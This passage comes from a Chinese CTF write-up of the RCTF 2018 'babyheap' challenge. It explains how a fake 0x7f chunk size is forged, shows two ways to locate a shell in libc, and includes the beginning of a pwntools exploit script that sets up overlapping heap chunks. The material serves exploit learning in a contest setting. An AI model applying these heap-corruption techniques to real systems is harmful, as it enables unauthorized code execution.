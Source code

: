 **然后还有一个疑问就是为什么要减0x13**
因为要构造一个加的size-----0x7f，从上面图就可以看出来。0x10(这个主要是堆块头)+0x3(为了构造假的size)

**这里找shell在libc的偏移有两种方法**

第一个是用one_gadget

<img src="/images/posts/rctf/1527013689217.png" >

第二个是直接在libc中找字符串/bin/sh    [笑哭]

<img src="/images/posts/rctf/1526916889427.png" >

贴上大佬的完整脚本：
其中有部分删改，本地远程都可以执行，其中注意计算libc_base的时候有一些细微的差别需要注意的。
```
from pwn import *

s = process('./babyheap')
#s = remote('babyheap.2018.teamrois.cn',3154)

def alloc(size,data):
	s.sendlineafter('e: ','1')
	s.sendlineafter('e: ',str(size))
	s.sendafter('t: ',data)

def show(idx):
	s.sendlineafter('e: ','2')
	s.sendlineafter('x: ',str(idx))

def free(idx):
	s.sendlineafter('e: ','3')
	s.sendlineafter('x: ',str(idx))
#l = ELF('./_libc.so.6')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
alloc(0x30,'A' * 0x30)#0
alloc(0xf0,'A' * 0xf0)#1
alloc(0x70,'A' * 0x70)#2
alloc(0xf0,'A' * 0xf0)#3
alloc(0x30,'A' * 0x30)#4
pause()

free(1)
free(2)
alloc(0x78,'B' * 0x60 + p64(0) + p64(0x110) + p64(0x180)) #1

```